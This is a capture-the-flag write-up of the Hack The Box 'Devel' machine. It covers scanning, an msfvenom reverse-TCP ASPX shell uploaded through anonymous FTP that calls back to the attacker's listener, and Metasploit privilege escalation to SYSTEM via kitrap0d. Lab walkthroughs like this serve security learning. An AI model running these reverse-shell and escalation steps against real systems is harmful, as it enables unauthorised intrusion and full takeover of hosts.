


<head>
   <link rel="stylesheet" href="css/retro.css">
</head>

----
### Summary


Additonal resources/reading:
* [Official course walkthrough](https://www.udemy.com/course/windows-privilege-escalation-for-beginners/learn/lecture/19038590#overview)

---
### Scanning/Enumeration
---
#### nmap 
```
nmap -A -T4 -p- 10.10.10.5
Password:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 17:40 MDT
Nmap scan report for 10.10.10.5
Host is up (0.064s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Embedded Standard 7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   68.22 ms 10.10.14.1
2   68.32 ms 10.10.10.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 106.03 seconds
```
#### nikto
```
nikto -h 10.10.10.5
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.5
+ Target Hostname:    10.10.10.5
+ Target Port:        80
+ Start Time:         2020-05-03 17:53:51 (GMT-6)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/7.5
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 2.0.50727
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ /: Appears to be a default IIS 7 install.
+ 7499 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2020-05-03 18:02:14 (GMT-6) (503 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
#### dirb
```
dirb http://10.10.10.5

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun May  3 20:17:41 2020
URL_BASE: http://10.10.10.5/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.5/ ----
==> DIRECTORY: http://10.10.10.5/aspnet_client/                                                                                                                                               
                                                                                                                                                                                              
---- Entering directory: http://10.10.10.5/aspnet_client/ ----
==> DIRECTORY: http://10.10.10.5/aspnet_client/system_web/                                                                                                                                    
                                                                                                                                                                                              
---- Entering directory: http://10.10.10.5/aspnet_client/system_web/ ----
                                                                                                                                                                                 
-----------------
END_TIME: Sun May  3 20:33:14 2020
DOWNLOADED: 13836 - FOUND: 0
```

---
### Exploits 
---

Looks like we have ftp anonymous access with a web-directory file isting that can be accessed via port 80:

```
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
```

---

#### 1. Prepare msfvenom aspx package 

Originally I created an asp file for this server put did not execute: "500 internal server error'. The aspx version produced a reverse shell:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
```
#### 2. Uplodad shell.aspx via ftp


#### 3. Open msfconsole and use a mulithandler with the correct payload
```
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.28      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

```
#### 4. Navigate to the URL to execute the shell.aspx msfvenom package

http://10.10.10.5/shell.aspx 

 
#### 5. Exploit(multi/handler) > run
```
 msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.28:4444 

[*] Sending stage (180291 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.28:4444 -> 10.10.10.5:49204) at 2020-05-04 12:58:38 -0600
[*] Sending stage (180291 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.28:4444 -> 10.10.10.5:49205) at 2020-05-04 12:58:38 -0600

meterpreter > getuid
Server username: IIS APPPOOL\Web

meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows
```
systeminfo
```
c:\windows\temp>systeminfo 
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ??
System Boot Time:          9/5/2020, 2:33:17 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 692 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.547 MB
Virtual Memory: In Use:    500 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```
#### 6. Priv Escalation
I tried the 'getsystem' command first; Then ran the post/multi/recon/local_exploit_suggester to get a list of exploits against the box.

```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester 
msf5 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > set session 2
session => 2
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 30 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf5 post(multi/recon/local_exploit_suggester) > 
```
Also used windows-exploit-suggester.py 
```
windows-exploit-suggester % ./windows-exploit-suggester.py --database 2020-05-05-mssb.xls --systeminfo deveL_info.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
Selected windows/local/ms10_015_kitrap0d exploit for the win

```
msf5 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.28:4445 
[*] Launching notepad to host the exploit...
[+] Process 3468 launched.
[*] Reflectively injecting the exploit DLL into 3468...
[*] Injecting exploit into 3468 ...
[*] Exploit injected. Injecting payload into 3468...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (180291 bytes) to 10.10.10.5
[*] Meterpreter session 7 opened (10.10.14.28:4445 -> 10.10.10.5:49158) at 2020-05-05 13:20:32 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
```
c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
```